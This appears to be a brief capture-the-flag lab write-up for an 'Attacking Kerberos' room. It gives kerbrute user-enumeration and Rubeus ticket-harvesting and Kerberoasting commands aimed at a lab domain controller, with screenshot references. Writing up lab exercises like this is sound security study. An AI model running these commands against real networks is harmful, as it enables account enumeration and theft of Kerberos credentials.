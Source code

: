 # Attacking Kerberos Room 


## Enumerating Users
- Installed `kerbrute` and downloaded a wordlist
- Enumerated users with `kerbrute` 

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

![Kerbrute Enumeration](2022-02-22-19-06-49.png)

## Harvesting Tickets w/ Rubeus 
- Established an SSH connection to the target 
- Used Rubeus to harvest for TGTs every 30 seconds 

```bash
Rubeus.exe harvest /interval:30
```
![Rubeus Harvesting](2022-02-22-19-18-30.png)

## Kerberoasting 
- using Rubeus 

```bash 
Rubeus.exe kerberoast
```
![Rubeus Kerberoasting](2022-02-22-19-26-40.png)
